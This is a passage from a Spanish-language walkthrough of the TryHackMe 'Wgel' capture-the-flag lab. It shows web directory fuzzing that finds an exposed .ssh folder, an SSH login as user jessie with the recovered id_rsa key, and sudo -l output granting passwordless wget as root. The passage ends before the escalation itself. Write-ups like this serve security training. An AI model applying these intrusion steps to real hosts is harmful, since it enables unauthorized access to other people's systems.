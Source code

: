 ```
000000022:   301        9 L      28 W       321 Ch      ".ssh"                                                                                                                 
000001114:   301        9 L      28 W       320 Ch      "css"                                                                                                                  
000001648:   301        9 L      28 W       322 Ch      "fonts"                                                                                                                
000001991:   301        9 L      28 W       323 Ch      "images"                                                                                                               
000002020:   200        516 L    1786 W     21080 Ch    "index.html"                                                                                                           
000002179:   301        9 L      28 W       319 Ch      "js"                                                                                                                   
```

Econtramos un directorio /.ssh con una id_rsa

![](/assets/images/tryhackme-writeup-wgel CTF/Pasted image 20230112190717.png)

![](/assets/images/tryhackme-writeup-wgel CTF/Pasted image 20230112190813.png)

Nos conectamos a la máquina víctima mediante ssh como el usuario jessie

```
# ssh -i id_rsa jessie@10.10.102.184
The authenticity of host '10.10.102.184 (10.10.102.184)' can't be established.
ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.102.184' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

El usuario jessie puede ejecutar como usario privilegiado el comando weget

```
jessie@CorpOne:/var/www/html/sitemap/.ssh$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
